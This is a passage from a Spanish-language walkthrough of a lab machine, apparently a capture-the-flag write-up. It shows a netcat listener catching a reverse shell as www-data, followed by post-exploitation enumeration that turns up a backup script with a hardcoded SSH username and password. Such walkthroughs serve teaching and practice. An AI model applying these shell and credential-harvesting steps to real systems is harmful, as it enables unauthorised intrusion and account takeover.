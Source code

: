 Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.130] 49052
Linux debian 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64 GNU/Linux
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Bien, obtén una sesión interactiva porque será necesaria para la **Post Explotación**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="enumLin">Enumeración de Máquina</h2>

Si nos vamos al directorio `/home`, encontraremos el directorio del **usuario debian**, pero no podremos entrar:
```bash
www-data@debian:/$ cd /home/
www-data@debian:/home$ ls
debian
www-data@debian:/home$ cd debian/
bash: cd: debian/: Permission denied
```

No podemos ver qué privilegios tiene nuestro usuario, porque no tenemos la contraseña.

Investigando un poco, encontramos el siguiente script en el directorio `/opt`:
```bash
www-data@debian:/home$ ls /opt
backup.py
```

Veamos su contenido de este script:

```bash
www-data@debian:/home$ cat /opt/backup.py 
import paramiko

def conectar_ssh(hostname, username, password):
    try:
        cliente_ssh = paramiko.SSHClient()

        cliente_ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

        cliente_ssh.connect(hostname, username=username, password=password)

        print("Conexión SSH exitosa")

        cliente_ssh.close()
    except SSHException as e:
        print("Error al establecer la conexión SSH:", e)

hostname = "192.168.0.20"
username = "dylan"
password = "dylan123"

conectar_ssh(hostname, username, password)
```